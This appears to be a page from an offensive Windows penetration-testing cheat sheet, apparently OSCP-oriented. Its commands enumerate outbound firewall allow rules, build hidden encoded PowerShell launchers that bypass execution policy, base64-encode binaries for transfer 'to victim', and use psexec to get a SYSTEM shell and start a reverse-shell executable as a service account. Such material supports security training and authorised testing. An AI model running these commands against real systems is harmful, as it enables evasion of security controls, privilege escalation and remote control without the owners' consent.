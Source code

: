 * Get Allow exceptions

```
powershell -c Get-NetFirewallRule -Direction Outbound -Enabled True -Action Allow

```
# Security Bypass and Obduscation

## Encoded Powershell Execution

```
# Generator
$command = 'Write-Output "Try Harder"'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$base64 = [Convert]::ToBase64String($bytes)

# Launcher
powershell.exe -NoP -NonI -W Hidden -Exec Bypass -Enc 'VwByAGkAdABlAC0ATwB1AHQAcAB1AHQAIAAiAFQAcgB5ACAASABhAHIAZABlAHIAIgAgAA=='
```
credits to https://www.offensive-security.com/offsec/powershell-obfuscation/

## Encode and Decode binary file to transfer it to victim

```
# encode from binary file to base64txt

powershell -C "& {$outpath = (Join-Path (pwd) 'out_base64.txt'); $inpath = (Join-Path (pwd) 'data.jpg'); [IO.File]::WriteAllText($outpath, ([convert]::ToBase64String(([IO.File]::ReadAllBytes($inpath)))))}"

# decode from base64txt to binary file

powershell -C "& {$outpath = (Join-Path (pwd) 'outdata2.jpg'); $inpath = (Join-Path (pwd) 'out_base64.txt'); [IO.File]::WriteAllBytes($outpath, ([convert]::FromBase64String(([IO.File]::ReadAllText($inpath)))))}"

```

big thanks for the skript to https://gist.github.com/t2psyto



# Post exploitation

* Once Admin privileges obtained get SYSTEM shell
`psexec.exe -accepteula -sid cmd.exe`

Or connect as other service if needed from victim

```powershell

.\psexec.exe /accepteula -i -u "nt authority\local service" c:\rev_shell.exe
```
